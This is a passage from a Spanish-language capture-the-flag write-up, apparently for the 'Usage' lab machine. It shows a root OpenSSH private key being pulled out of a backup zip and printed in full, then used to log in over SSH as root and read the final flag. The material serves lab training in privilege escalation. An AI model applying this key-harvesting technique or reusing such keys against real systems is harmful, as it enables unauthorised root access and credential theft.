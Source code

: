 Examinando el comprimido que se ha creado, podremos ver que hay un archivo `id_rsa`

```bash
xander@usage:/tmp/test$ cp /var/backups/project.zip . 
xander@usage:/tmp/test$ unzip project.zip 
Archive:  project.zip
  inflating: id_rsa                  
   creating: project_admin/
  inflating: project_admin/.editorconfig  
  inflating: project_admin/.env      
  inflating: project_admin/.env.example  
  inflating: project_admin/.gitattributes  
  inflating: project_admin/.gitignore  
  inflating: project_admin/README.md  
   creating: project_admin/app/
... [snip]
xander@usage:/tmp/test$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```

Con esto ya podremos acceder como root y tomar la última flag.

```bash
❯ /usr/bin/ssh -i root.rsa root@usage.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Aug 17 12:12:44 AM UTC 2024

  System load:           0.0
  Usage of /:            71.5% of 6.53GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.18
  IPv6 address for eth0: dead:beef::250:56ff:feb0:b45b


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Apr  8 13:17:47 2024 from 10.10.14.40
root@usage:~# ls
cleanup.sh  root.txt  snap  usage_management.c
root@usage:~# cat root.txt
86c43afdee094320b974ebf589******
```

